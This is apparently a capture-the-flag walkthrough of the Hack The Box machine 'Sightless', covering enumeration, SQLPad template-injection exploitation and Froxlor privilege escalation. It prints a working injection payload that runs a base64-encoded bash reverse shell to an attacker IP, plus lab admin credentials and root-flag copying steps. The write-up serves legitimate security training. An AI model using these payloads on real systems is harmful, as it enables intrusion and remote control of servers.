




Sightless
Enumeration
As always we can start with an nmap scan:
PORT STATE SERVICE REASON VERSION
21/tcp open ftp syn-ack
| fingerprint-strings:
| GenericLines:
| 220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.129.170.105]
| Invalid command: try being more creative
|_ Invalid command: try being more creative
22/tcp open ssh syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGoivagBalUNqQKPAE2WFpkFMj+vKwO9D3RiUUxsnkBNKXp5ql1R+kvjG89Iknc24EDKuRWDzEivKXYrZJE9fxg=
| 256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA4BBc5R8qY5gFPDOqODeLBteW5rxF+qR5j36q9mO+bu
80/tcp open http syn-ack nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://sightless.htb/
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=9/7%Time=66DCA36E%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,A3,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x20S
SF:erver\)\x20\[::ffff:10\.129\.170\.105\]\r\n500\x20Invalid\x20command:\x
SF:20try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try
SF:\x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
The nmap scan shows us many ports open including
- 21 running ftp
- 22 running ssh
- 80 running http
We can then explore ports 21 and 80 to see if we discover something interesting
Port 21
We can try an anonymous login but it doesn’t work
ftp anonymous@10.129.170.105
Connected to 10.129.170.105.
220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.129.170.105]
550 SSL/TLS required on the control channel
ftp: Login failed
Port 80
Going over to sightless.htb we see a website and we can try to enumerate it further using gobusterand dirsearch
gobuster vhost -w /usr/share/SecLists/Discovery/DNS/namelist.txt -u http://sightless.htb --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://sightless.htb
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/SecLists/Discovery/DNS/namelist.txt
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
[+] Append Domain: true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
===============================================================
Finished
===============================================================
Clicking on the buttons at the bottom we discover a new subdomain: sqlpad.sightless.htb
–> we can add it to our hosts file and visit it ==> we are met by a database schema where we might be able to run commands
dirsearch -u http://sqlpad.sightless.htb
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest
/pkg_resources.html
from pkg_resources import DistributionNotFound, VersionConflict
_|. _ _ _ _ _ _|_ v0.4.3
(_||| _) (/_(_|| (_| )
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460
Output File: /home/flavien/Desktop/HTB CTFs/Machines/Sightless/reports/http_sqlpad.sightless.htb/_24-09-07_21-11-14.txt
Target: http://sqlpad.sightless.htb/
[21:11:14] Starting:
[21:11:31] 404 - 21B - /api
[21:11:31] 404 - 21B - /api/
[21:11:31] 404 - 21B - /api/2/explore/
[21:11:31] 404 - 21B - /api/_swagger_/
[21:11:31] 404 - 21B - /api/api
[21:11:31] 404 - 21B - /api/__swagger__/
[21:11:31] 404 - 21B - /api/2/issue/createmeta
[21:11:31] 404 - 21B - /api/apidocs/swagger.json
[21:11:31] 404 - 21B - /api/application.wadl
[21:11:32] 404 - 21B - /api/vendor/phpunit/phpunit/phpunit
[21:11:33] 301 - 179B - /assets -> /assets/
[21:11:46] 200 - 10KB - /favicon.ico
[21:11:56] 200 - 297B - /manifest.json
Task Completed
We see that we can create an access and a connection on the dashboard to connect to an sqldatabase

We see 2 users: john@sightless.htb & admin@sightless.htb
==> After looking around for a bit we discover this command injection that we can try
Exploitation
We can follow what is said in the blog above to gain a remote shell, first we can create our docker container:
sudo docker run -p 3000:3000 --name sqlpad -d --env SQLPAD_ADMIN=admin --env SQLPAD_ADMIN_PASSWORD=admin sqlpad/sqlpad:latest
0e721809c73d06b128e9693c6510ca171ea194249b545e0b55bab9eb70d7d125
---------------------------------------------------------------------------------
sudo docker ps
CONTAINER ID IMAGE COMMAND CREATED STATUS PORTS NAMES
0e721809c73d sqlpad/sqlpad:latest "/docker-entrypoint" 2 seconds ago Up 1 second 0.0.0.0:3000->3000/tcp, :::3000->3000/tcp sqlpad
Then we need to connect to it using the dashboard:

And finally we can verify if we have a working shell using:
sudo docker exec -it sqlpad cat /tmp/pwn
Where we see that we have successfully executed commands on the server –> we can now use a bash payload to try and get a reverse shell
echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuODcvNDQ0NCAwPiYx | base64 -d | bash
and we can create a new connection with the database field to get a reverse shell
{{ process.mainModule.require('child_process').exec('echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuODcvNDQ0NCAwPiYx | base64 -d | bash') }}
and this gives us a reverse shell
Privilege escalation
Checking out what services are running on the local ports, we discover a Froxlorinstance running on port 8080 that we can verify using:
curl 127.0.0.1:8080
<title>Froxlor</title>
and we also notice a few other ports
netstat -ltnp
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 127.0.0.1:44727 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:40671 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8080 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:3306 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:3000 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:37883 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:33060 0.0.0.0:* LISTEN -
tcp6 0 0 :::21 :::* LISTEN -
tcp6 0 0 :::22 :::* LISTEN -
We can then port forward all of the 40*** ports and inspect them using Chrome,

once that done we can inspect the connection and we get the credentials for the admin.sightless.htb:8080website

And we have the creds: admin - ForlorfroxAdmin as well as a url admin.sightless.htb:8080/admin_logger.php?page=log
We finally can login to this website with these credentials on http://127.0.0.1:8080/index.php and we can then use the php configuration stuff to copy the root flag and then make it readable

cp /root/root.txt /tmp/root.txt
chmod 644 /tmp/root.txt
and after logging out and in again we can read the flag